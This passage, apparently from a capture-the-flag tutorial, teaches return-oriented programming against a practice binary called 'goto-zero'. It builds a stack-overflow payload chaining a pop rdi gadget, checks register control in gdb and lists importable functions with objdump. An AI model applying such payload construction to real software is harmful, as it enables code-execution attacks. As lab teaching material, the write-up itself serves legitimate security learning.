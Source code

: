 ```
  40127f:       c3                      ret
  401280:       cc                      int3
  401281:       5f                      pop    rdi
  401282:       c3                      ret
```

So let's take our payload from earlier, and instead of the debug address we'll use the `pop rdi` instruction as the return address (0x401281), followed by a value that will go into `rdi` (0x1234567812345678). Once 0x1234567812345678 is popped into `rdi`, the `ret` will execute and whatever is *next* on the stack is the next return address. For that, we'll use our debug breakpoint from earlier (0x4011a0).

All put together (once again using `''` as a visual separator), we get:

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO''\x81\x12\x40\x00\x00\x00\x00\x00''\x78\x56\x34\x12\x78\x56\x34\x12''\xa0\x11\x40\x00\x00\x00\x00\x00' > test.bin
```

Then run it in a debugger:

```
(gdb) run < test.bin
[...]
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00000000004011a1 in main ()
```

Crashing at a `SIGTRAP` means we're still ending with our debug statement - that's good news! If you're getting a `SIGSEGV`, that means you're ending up at the wrong place. Inspecting the address you're at (`x/i $rip`) and the top of the stack (`x/xg $rsp`) might give you hints.

If it worked, we can use `print/x` to print the register in heX to check what's in `rdi`:

```
(gdb) print/x $rdi
$1 = 0x1234567812345678
```

We did it!

## What are we doing here?

Okay, now what are we actually trying to do?

We're trying to get code execution, but how? We mentioned that you can set up arguments and then call functions. But what functions can we actually call?

Because our binary isn't compiled with `PIE`, we have a menu of functions that we can call, and we can see it with `objdump -T`:

```
$ objdump -T ./goto-zero.patched

./goto-zero.patched:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.34) __libc_start_main
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) puts
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) printf
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) srand
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) fgets
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) getchar
0000000000000000  w   D  *UND*	0000000000000000  Base        __gmon_start__
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) time
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) setvbuf
0000000000000000      DF *UND*	0000000000000000 (GLIBC_2.2.5) rand
0000000000404060 g    DO .bss	0000000000000008 (GLIBC_2.2.5) stdout
0000000000404070 g    DO .bss	0000000000000008 (GLIBC_2.2.5) stdin
```